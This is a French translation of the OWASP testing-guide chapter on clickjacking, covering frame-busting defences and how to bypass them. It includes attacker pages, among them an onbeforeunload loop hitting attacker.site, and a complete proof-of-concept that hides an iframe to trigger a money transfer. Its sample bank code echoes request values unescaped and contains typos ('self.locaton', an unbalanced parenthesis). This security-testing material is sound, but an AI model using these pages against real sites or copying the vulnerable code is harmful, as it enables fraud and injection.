

# Test de détournement de clic

|ID          |
|------------|
|WSTG-CLNT-09|

## Sommaire

Le détournement de clic, un sous-ensemble de la réparation de l'interface utilisateur, est une technique malveillante par laquelle un internaute est amené à interagir (dans la plupart des cas en cliquant) avec quelque chose d'autre que ce avec quoi l'utilisateur croit interagir. Ce type d'attaque, seul ou en conjonction avec d'autres attaques, pourrait potentiellement envoyer des commandes non autorisées ou révéler des informations confidentielles pendant que la victime interagit avec des pages Web apparemment inoffensives. Le terme clickjacking a été inventé par Jeremiah Grossman et Robert Hansen en 2008.

Une attaque de détournement de clic utilise des fonctionnalités apparemment inoffensives de HTML et JavaScript pour forcer la victime à effectuer des actions indésirables, comme cliquer sur un bouton invisible qui effectue une opération involontaire. Il s'agit d'un problème de sécurité côté client qui affecte une variété de navigateurs et de plates-formes.

Pour mener à bien cette attaque, un attaquant crée une page Web apparemment inoffensive qui charge l'application cible grâce à l'utilisation d'un cadre en ligne (dissimulé avec du code CSS). Une fois cela fait, un attaquant peut inciter la victime à interagir avec la page Web par d'autres moyens (par exemple, via l'ingénierie sociale). Comme pour les autres attaques, une condition préalable courante est que la victime soit authentifiée auprès du site Web cible de l'attaquant.

\
*Figure 4.11.9-1 : Illustration du cadre en ligne de détournement de clic*

La victime surfe sur la page Web de l'attaquant avec l'intention d'interagir avec l'interface utilisateur visible, mais effectue par inadvertance des actions sur la page masquée. À l'aide de la page masquée, un attaquant peut inciter les utilisateurs à effectuer des actions qu'ils n'avaient jamais l'intention d'effectuer via le positionnement des éléments masqués dans la page Web.

\
*Figure 4.11.9-2 : Illustration du cadre en ligne masqué*

La puissance de cette méthode est que les actions effectuées par la victime proviennent de la page Web cible cachée mais authentique. Par conséquent, certaines des protections anti-CSRF déployées par les développeurs pour protéger la page Web des attaques CSRF pourraient être contournées.

## Objectifs des tests

- Comprendre les mesures de sécurité en place.
- Évaluez la rigueur des mesures de sécurité et si elles sont contournables.

## Comment tester

Comme mentionné ci-dessus, ce type d'attaque est souvent conçu pour permettre à un attaquant d'induire des actions des utilisateurs sur le site cible, même si des jetons anti-CSRF sont utilisés. Des tests doivent être effectués pour déterminer si les pages du site Web sont vulnérables aux attaques de détournement de clic.

Les testeurs peuvent rechercher si une page cible peut être chargée dans un cadre en ligne en créant une page Web simple qui inclut un cadre contenant la page Web cible. Un exemple de code HTML pour créer cette page Web de test est affiché dans l'extrait suivant :

```html
<html>
    <head>
        <title>Clickjack test page</title>
    </head>
    <body>
        <iframe src="http://www.target.site" width="500" height="500"></iframe>
    </body>
</html>
```

Si la page `http://www.target.site` est chargée avec succès dans le cadre, alors le site est vulnérable et n'a aucun type de protection contre les attaques de détournement de clic.

### Contourner la protection contre le détournement de clics

Si la page "http://www.target.site" n'apparaît pas dans le cadre en ligne, le site dispose probablement d'une certaine forme de protection contre le détournement de clics. Il est important de noter que cela ne garantit pas que la page est totalement à l'abri du détournement de clics.

Les méthodes de protection d'une page Web contre le détournement de clics peuvent être divisées en quelques mécanismes principaux. Il est possible de contourner ces méthodes dans certaines circonstances en utilisant des solutions de contournement spécifiques. Pour plus de ressources OWASP sur la défense contre le détournement de clics, consultez la [fiche de triche de défense contre le détournement de clics OWASP](https://cheatsheetseries.owasp.org/cheatsheets/Clickjacking_Defense_Cheat_Sheet.html).

#### Protection côté client : suppression de trames

La méthode côté client la plus courante, qui a été développée pour protéger une page Web contre le détournement de clics, s'appelle Frame Busting et consiste en un script dans chaque page qui ne doit pas être encadré. Le but de cette technique est d'empêcher un site de fonctionner lorsqu'il est chargé à l'intérieur d'un cadre.

La structure du code de contournement de trame se compose généralement d'une "instruction conditionnelle" et d'une instruction "contre-action". Pour ce type de protection, il existe des solutions de contournement appelées "Bust frame busting". Certaines de ces techniques sont spécifiques au navigateur tandis que d'autres fonctionnent sur tous les navigateurs.

##### Version du site Web mobile

Les versions mobiles du site Web sont généralement plus petites et plus rapides que les versions de bureau, et elles doivent être moins complexes que l'application principale. Les variantes mobiles ont souvent moins de protection car on suppose à tort qu'un attaquant ne pourrait pas attaquer une application par le smartphone. C'est fondamentalement faux, car un attaquant peut falsifier l'origine réelle donnée par un navigateur Web, de sorte qu'une victime non mobile peut être en mesure de visiter une application conçue pour les utilisateurs mobiles. Il découle de cette hypothèse que, dans certains cas, il n'est pas nécessaire d'utiliser des techniques pour éviter le contournement de trame lorsqu'il existe des alternatives non protégées, qui permettent l'utilisation des mêmes vecteurs d'attaque.

##### Double encadrement

Certaines techniques de contournement de trame tentent de casser la trame en attribuant une valeur à l'attribut `parent.location` dans l'instruction "counter-action".

De telles actions sont, par exemple :

- `self.parent.location` = `document.location`
- `parent.location.href` = `self.location`
- `parent.location` = `self.location`

Cette méthode fonctionne bien jusqu'à ce que la page cible soit encadrée par une seule page. Cependant, si l'attaquant enferme la page Web cible dans un cadre qui est imbriqué dans un autre (un cadre double), alors essayer d'accéder à `parent.location` devient une violation de sécurité dans tous les navigateurs populaires, en raison de la navigation par cadre descendant politique. Cette violation de sécurité désactive la navigation de contre-action.

Code de contournement du cadre du site cible (`exemple.org`) :

```javascript
if(top.location!=self.locaton) {
    parent.location = self.location;
}
```

Cadre supérieur de l'attaquant (`fictitious2.html`) :

```html
<iframe src="fictitious.html">
```

Sous-cadre fictif de l'attaquant (`fictitious.html`) :

```html
<iframe src="http://exemple.org">
```

##### Désactiver JavaScript

Étant donné que ce type de protections côté client repose sur le code JavaScript frame busting, si JavaScript est désactivé chez la victime ou s'il est possible pour un attaquant de désactiver le code JavaScript, la page Web ne disposera d'aucun mécanisme de protection contre le détournement de clics.

Trois techniques de désactivation peuvent être utilisées avec les trames :

- Attribut sandbox : avec HTML5, il existe un nouvel attribut appelé "sandbox". Il active un ensemble de restrictions sur le contenu chargé dans l'iframe. Pour le moment, cet attribut n'est compatible qu'avec Chrome et Safari.

exemple :

```html
<iframe src="http://exemple.org" sandbox></iframe>
```

- Mode design : Paul Stone a montré un problème de sécurité concernant le "designMode" qui peut être activé dans la page de cadrage (via document.designMode), désactivant JavaScript en top et sub-frame.

##### Événement OnBeforeUnload

L'événement `onBeforeUnload` pourrait être utilisé pour échapper au code de contournement de trame. Cet événement est appelé lorsque le code de contournement de cadre veut détruire l'iframe en chargeant l'URL dans toute la page Web et pas seulement dans l'iframe. La fonction de gestionnaire renvoie une chaîne qui est demandée à l'utilisateur demandant de confirmer s'il veut quitter la page. Lorsque cette chaîne est affichée, l'utilisateur est susceptible d'annuler la navigation, en vainquant la tentative de contournement de la cible.

L'attaquant peut utiliser cette attaque en enregistrant un événement de déchargement sur la page d'accueil à l'aide de l'exemple de code suivant :

```html
<h1>www.fictitious.site</h1>
<script>
    window.onbeforeunload = function()
    {
        return " Do you want to leave fictitious.site?";
    }
</script>
<iframe src="http://exemple.org">
```

La technique précédente nécessite l'interaction de l'utilisateur mais, le même résultat, peut être obtenu sans inviter l'utilisateur. Pour ce faire, l'attaquant doit annuler automatiquement la requête de navigation entrante dans un gestionnaire d'événements onBeforeUnload en soumettant à plusieurs reprises (par exemple toutes les millisecondes) une requête de navigation à une page Web qui répond avec un en-tête "HTTP/1.1 204 No Content".

Étant donné qu'avec cette réponse, le navigateur ne fera rien, le résultat de cette opération est le vidage du pipeline de requête, rendant vaine la tentative de rupture de trame d'origine.

Suite à un exemple de code :

204 pages :

```php
<?php
    header("HTTP/1.1 204 No Content");
?>
```

Page de l'attaquant :

```html
<script>
    var prevent_bust = 0;
    window.onbeforeunload = function() {
        prevent_bust++;
    };
    setInterval(
        function() {
            if (prevent_bust > 0) {
                prevent_bust -= 2;
                window.top.location = "http://attacker.site/204.php";
            }
        }, 1);
</script>
<iframe src="http://exemple.org">
```

##### Filtre XSS

À partir de Google Chrome 4.0 et d'IE8, des filtres XSS ont été introduits pour protéger les utilisateurs des attaques XSS réfléchies. Nava et Lindsay ont observé que ce type de filtres peut être utilisé pour désactiver le code de contournement de trame en le faisant passer pour un code malveillant.

- **Filtre XSS IE8** : ce filtre a une visibilité sur tous les paramètres de chaque requête et réponse passant par le navigateur Web et les compare à un ensemble d'expressions régulières afin de rechercher les tentatives XSS reflétées. Lorsque le filtre identifie une éventuelle attaque XSS ; il désactive tous les scripts en ligne dans la page, y compris les scripts de contournement de cadre (la même chose peut être faite avec des scripts externes). Pour cette raison, un attaquant pourrait induire un faux positif en insérant le début du script de contournement de trame dans les paramètres d'une requête.

exemple : Code de contournement du cadre de la page Web cible :

```html
<script>
    if ( top != self )
    {
        top.location=self.location;
    }
</script>
```

Code de l'attaquant :

```html
<iframe src="http://exemple.org/?param=<script>if">
```

- **Filtre Chrome 4.0 XSSAuditor** : Il a un comportement un peu différent par rapport au filtre XSS IE8, en effet avec ce filtre un attaquant pourrait désactiver un "script" en passant son code dans un paramètre de requête. Cela permet à la page de cadrage de cibler spécifiquement un seul extrait contenant le code de contournement de cadre, laissant tous les autres codes intacts.

exemple : Code de contournement du cadre de la page Web cible :

```html
<script>
    if ( top != self )
    {
        top.location=self.location;
    }
</script>
```

Code de l'attaquant :

```html
<iframe src="http://exemple.org/?param=if(top+!%3D+self)+%7B+top.location%3Dself.location%3B+%7D">
```

##### Redéfinir l'emplacement

Pour plusieurs navigateurs, la variable `document.location` est un attribut immuable. Cependant, pour certaines versions d'Internet Explorer et de Safari, il est possible de redéfinir cet attribut. Ce fait peut être exploité pour échapper au code de contournement de trame.

- **Redéfinition de l'emplacement dans IE7 et IE8** : il est possible de redéfinir `emplacement` comme illustré dans l'exemple suivant. En définissant `location` comme une variable, tout code qui essaie de lire ou de naviguer en attribuant `top.location` échouera en raison d'une violation de sécurité et le code de rupture de trame est donc suspendu.

exemple :

```html
<script>
    var location = "xyz";
</script>
<iframe src="http://exemple.org"></iframe>
```

- **Redéfinition de l'emplacement dans Safari 4.0.4** : Pour casser le code de contournement de cadre avec `top.location`, il est possible de lier `location` à une fonction via `defineSetter` (à travers la fenêtre), de sorte qu'une tentative de lecture ou accédez au `top.location` échouera.

exemple :

```html
<script>
    window.defineSetter("location" , function(){});
</script>
<iframe src="http://exemple.org"></iframe>
```

#### Protection côté serveur : X-Frame-Options

Une approche alternative au code de contournement de trame côté client consiste en une défense basée sur l'en-tête. L'en-tête `X-FRAME-OPTIONS` est envoyé par le serveur sur les réponses HTTP et est utilisé pour marquer les pages Web qui ne doivent pas être encadrées. Cet en-tête peut prendre les valeurs `DENY`, `SAMEORIGIN`, `ALLOW-FROM` origin ou `ALLOWALL` non standard. La valeur recommandée est "REFUSER".

L'en-tête `X-FRAME-OPTIONS` est une très bonne solution, et a été adopté par tous les principaux navigateurs, mais aussi pour cette technique, il existe certaines limitations qui pourraient conduire dans tous les cas à exploiter la vulnérabilité de détournement de clic.

##### Procurations

Les proxys Web sont connus pour ajouter et supprimer des en-têtes. Dans le cas où un proxy Web supprime l'en-tête `X-FRAME-OPTIONS`, le site perd sa protection de cadrage.

##### Version du site Web mobile

Dans ce cas également, étant donné que `X-FRAME-OPTIONS` doit être implémenté dans chaque page du site Web, les développeurs n'ont peut-être pas protégé la version mobile du site Web.

#### Protection côté serveur : utilisation de la directive frame-ancestors de la politique de sécurité du contenu (CSP)

La directive `frame-ancestors` dans HTTP Content-Security-Policy (CSP) spécifie les parents acceptables qui peuvent intégrer une page en utilisant `<frame>`, `<iframe>`, `<object>`, `<embed >`, ou `<applet>` balises.

De plus, `frame-ancestors` permet à un site d'autoriser plusieurs domaines en utilisant la sémantique normale de la politique de sécurité du contenu.

### Créer une preuve de concept

Une fois que nous avons découvert que le site que nous testons est vulnérable aux attaques de détournement de clic, nous pouvons procéder au développement d'une "preuve de concept" (PoC) pour démontrer la vulnérabilité. Il est important de noter que, comme mentionné précédemment, ces attaques peuvent être utilisées en conjonction avec d'autres formes d'attaques (par exemple des attaques CSRF) et pourraient conduire à surmonter les jetons anti-CSRF. A cet égard on peut imaginer que, par exemple, le site `exemple.org` permet à des utilisateurs authentifiés et autorisés d'effectuer un transfert d'argent vers un autre compte.

Supposons que pour exécuter le transfert, les développeurs aient prévu trois étapes. Dans un premier temps, l'utilisateur remplit un formulaire avec le compte de destination et le montant. Dans la deuxième étape, chaque fois que l'utilisateur soumet le formulaire, une page récapitulative demandant à l'utilisateur une confirmation (comme celle présentée dans l'image suivante) est présentée.

\
*Figure 4.11.9-3 : Exemple de détournement de clic Étape 2*

Suite à un extrait du code pour l'étape 2 :

```html
//generate random anti CSRF token
$csrfToken = md5(uniqid(rand(), TRUE));

//set the token as in the session data
$_SESSION['antiCsrf'] = $csrfToken;

//Transfer form with the hidden field
$form = '
<form name="transferForm" action="confirm.php" method="POST">
        <div class="box">
        <h1>BANK XYZ - Confirm Transfer</h1>
        <p>
        Do You want to confirm a transfer of <b>'. $_REQUEST['amount'] .' &euro;</b> to account: <b>'. $_REQUEST['account'] .'</b> ?
        </p>
        <label>
            <input type="hidden" name="amount" value="' . $_REQUEST['amount'] . '" />
            <input type="hidden" name="account" value="' . $_REQUEST['account'] . '" />
            <input type="hidden" name="antiCsrf" value="' . $csrfToken . '" />
            <input type="submit" class="button" value="Transfer Money" />
        </label>

        </div>
</form>';
```

Dans la dernière étape sont prévus les contrôles de sécurité puis, si tout va bien, le transfert est effectué. Dans la liste suivante, un extrait de code de la dernière étape est présenté :

> Remarque : dans cet exemple, pour simplifier, il n'y a pas de filtrage des entrées, mais cela n'a aucune pertinence pour bloquer ce type d'attaque

```javascript
if( (!empty($_SESSION['antiCsrf'])) && (!empty($_POST['antiCsrf'])) )
{
    // input logic and sanization checks

    // check the anti-CSRF token
    if(($_SESSION['antiCsrf'] == $_POST['antiCsrf']) {
        echo '<p> '. $_POST['amount'] .' &euro; successfully transferred to account: '. $_POST['account'] .' </p>';
    }
} else {
    echo '<p>Transfer KO</p>';
}
```

Comme vous pouvez le voir, le code est protégé contre les attaques CSRF à la fois avec un jeton aléatoire généré à la deuxième étape et en n'acceptant que la variable transmise via la méthode POST. Dans cette situation, un attaquant pourrait forger une attaque CSRF + Clickjacking pour échapper à la protection anti-CSRF et forcer une victime à effectuer un transfert d'argent sans son consentement.

La page cible de l'attaque est la deuxième étape de la procédure de transfert d'argent. Étant donné que les développeurs placent les contrôles de sécurité uniquement dans la dernière étape, pensant que cela est suffisamment sécurisé, l'attaquant pourrait transmettre les paramètres de compte et de montant via la méthode GET.

> Remarque : il existe une attaque avancée de détournement de clic qui permet de forcer les utilisateurs à remplir un formulaire, donc aussi dans le cas où il est nécessaire de remplir un formulaire, l'attaque est faisable

La page de l'attaquant peut ressembler à une page Web simple et inoffensive comme celle présentée ci-dessous :

\
*Figure 4.11.9-4 : Exemple de détournement de clic Malicious Page 1*

Mais en jouant avec la valeur d'opacité CSS, nous pouvons voir ce qui est caché sous la page Web apparemment anodine.

\
*Figure 4.11.9-5 : Exemple de détournement de clic Page 2 malveillante*

Le code de clickjacking pour créer cette page est présenté ci-dessous :

```html
<html>
    <head>
        <title>Trusted web page</title>

        <style type="text/css"><!--
            *{
                margin:0;
                padding:0;
            }
            body {  
                background:#ffffff;
            }
            .button
            {
                padding:5px;
                background:#6699CC;
                left:275px;
                width:120px;
                border: 1px solid #336699;
            }
            #content {
                width: 500px;
                height: 500px;
                margin-top: 150px ;
                margin-left: 500px;
            }
            #clickjacking
            {
                position: absolute;
                left: 172px;
                top: 60px;
                filter: alpha(opacity=0);
                opacity:0.0
            }
        //--></style>

    </head>
    <body>
        <div id="content">
            <h1>www.owasp.com</h1>
            <form action="http://www.owasp.com">
                <input type="submit" class="button" value="Click and go!">
            </form>
        </div>

                <iframe id="clickjacking" src="http://localhost/csrf/transfer.php?account=ATTACKER&amount=10000" width="500" height="500" scrolling="no" frameborder="none">
                </iframe>
    </body>
</html>
```

Avec l'aide de CSS (notez le bloc `#clickjacking`), nous pouvons masquer et positionner convenablement l'iframe de manière à ce qu'il corresponde aux boutons. Si la victime clique sur le bouton "Cliquez et partez !" le formulaire est soumis et le transfert est terminé.

\
*Figure 4.11.9-6 : Exemple de détournement de clic Malicious Page 3*

L'exemple présenté utilise uniquement la technique de base du détournement de clic, mais avec une technique avancée, il est possible de forcer l'utilisateur à remplir le formulaire avec des valeurs définies par l'attaquant.

## Références

- [Clickjacking OWASP](https://owasp.org/www-community/attacks/Clickjacking)
- [Clicjacking Wikipédia](https://en.wikipedia.org/wiki/Clickjacking)
- [Gustav Rydstedt, Elie Bursztein, Dan Boneh et Collin Jackson : "Busting Frame Busting: a Study of Clickjacking Vulnerabilities on Popular Sites"](https://seclab.stanford.edu/websec/framebusting/framebust.pdf)
